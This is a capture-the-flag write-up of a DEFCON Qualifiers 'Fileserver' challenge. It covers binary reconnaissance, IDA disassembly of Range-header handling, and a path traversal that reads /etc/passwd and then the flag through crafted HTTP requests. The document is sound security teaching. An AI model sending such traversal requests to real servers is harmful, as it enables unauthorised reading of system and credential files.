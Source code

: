 ### DEFCON Qualifiers - Fileserver

For this one, we were given a domain name and a port, but no binary. Behind the remote port there was a webserver, which seemed custom made, and among other things, allowed us to download a compiled copy of itself (we figured that out later on) targeted against 32-bit Linux. 

Evidently, at the time, I though that I was supposed to pwn the binary in order to win. The challenge, just like the previous ones, instructed us to find the flag at */proc/flag*, a fact I did not mention for the previous ones, but which plays an important role for this one.

On to the write up though.

#### Huh?

At first glance, the binary looks like this:

```bash
➜  fileserver checksec target
[*] '/vagrant/DEFCON/fileserver/target'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Also, readelf shows the following, as far as symbols are concerned (basic *snip snip* has occured):

```bash
➜  fileserver readelf -s target | grep -v "@GLIB"

Symbol table '.symtab' contains 127 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    38: 08048cda   218 FUNC    LOCAL  DEFAULT   14 rio_read
    39: 08049320   110 FUNC    LOCAL  DEFAULT   14 get_mime_type
    56: 0804972f    98 FUNC    GLOBAL DEFAULT   14 log_access
    58: 0804c0e0   112 OBJECT  GLOBAL DEFAULT   25 meme_types
    67: 08049498   154 FUNC    GLOBAL DEFAULT   14 url_decode
    69: 08049c5f   553 FUNC    GLOBAL DEFAULT   14 process
    74: 0804c150     4 OBJECT  GLOBAL DEFAULT   25 default_mime_type
    85: 08048f4d   979 FUNC    GLOBAL DEFAULT   14 handle_directory_request
    91: 08048db4   137 FUNC    GLOBAL DEFAULT   14 rio_readlineb
    95: 08049b8e   209 FUNC    GLOBAL DEFAULT   14 display_admin_page
   103: 08049e88   371 FUNC    GLOBAL DEFAULT   14 main
   113: 08048c59   129 FUNC    GLOBAL DEFAULT   14 writen
   114: 08049532   509 FUNC    GLOBAL DEFAULT   14 parse_request
   117: 08048c2b    46 FUNC    GLOBAL DEFAULT   14 rio_readinitb
   120: 0804938e   266 FUNC    GLOBAL DEFAULT   14 open_listenfd
   122: 080498b7   727 FUNC    GLOBAL DEFAULT   14 serve_static
   126: 08049791   294 FUNC    GLOBAL DEFAULT   14 client_error
```

The binary is fully symbolicated, but it still contains a bunch of functionality, so we are going to have to take a deeper look at this.

Before doing so, I decided to take a look at the fileserver instance running on the remote host, in order to get a better feel for the target before jumping into static analysis.

That is when I noticed a path traversal vulnerability. By issuing the following HTTP request:

```
➜  fileserver

GET /../../../../../../etc/passwd HTTP/1.0
```

I received the following response:

```
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-length: 1561
Content-type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
statd:x:108:65534::/var/lib/nfs:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:900:900:vagrant,,,:/home/vagrant:/usr/bin/zsh
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
```

That is when I got excited, and tried it against the remote host, without any luck. I could only reproduce it locally. While the vulnerability was present, I could not force the server to return the file to me. I could only list directories using the traversal. Bummer :/

I then scrapped the idea of dynamically getting a feel of the target, considering that the challenge category was pwning, and loaded the binary into IDA. After browsing around the disassembly for a bit, the following caught my attention. During *parse_request*, the binary treated incoming requests differently, based on the presence of a Range HTTP Request Header, or more accurately, **"Ran"**.

```
.text:080495BA                 sub     esp, 4
.text:080495BD                 push    400h
.text:080495C2                 lea     eax, [ebp+s1]
.text:080495C8                 push    eax
.text:080495C9                 lea     eax, [ebp+var_420]
.text:080495CF                 push    eax
.text:080495D0                 call    rio_readlineb
.text:080495D5                 add     esp, 10h
.text:080495D8                 movzx   eax, [ebp+s1]
.text:080495DF                 cmp     al, 52h ; 'R'
.text:080495E1                 jnz     short loc_8049644
.text:080495E3                 movzx   eax, [ebp+var_81F]
.text:080495EA                 cmp     al, 61h ; 'a'
.text:080495EC                 jnz     short loc_8049644
.text:080495EE                 movzx   eax, [ebp+var_81E]
.text:080495F5                 cmp     al, 6Eh ; 'n'
.text:080495F7                 jnz     short loc_8049644
.text:080495F9                 mov     eax, [ebp+arg_4]
.text:080495FC                 lea     edx, [eax+204h]
.text:08049602                 mov     eax, [ebp+arg_4]
.text:08049605                 add     eax, 200h
.text:0804960A                 push    edx
.text:0804960B                 push    eax
.text:0804960C                 lea     eax, (aRangeBytesLuLu - 804C000h)[ebx] ; "Range: bytes=%lu-%lu"
.text:08049612                 push    eax
.text:08049613                 lea     eax, [ebp+s1]
.text:08049619                 push    eax
.text:0804961A                 call    ___isoc99_sscanf
```

We can follow the bahavioral change down to **serve_static**, which in the case of a Range header present, *snprintf()'s* the selected part of the file to the response buffer, while the other code path simply skips over it in the case of a file. After all, the juicy part of the (intened solution to the) challenge was getting to the admin page (*page* as in *directory*).

Bingo! While the remote instance won't let us use the directory traversal to fetch files (this is how it was intended to be played), by supplying a range header, we could get it to do so!

```
GET /../../../../../proc/flag HTTP/1.0
Range: bytes=0-90
```

Aaaaaaand:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: **redacted**
Cache-Control: no-cache
Accept-Ranges: bytes

**redacted**
```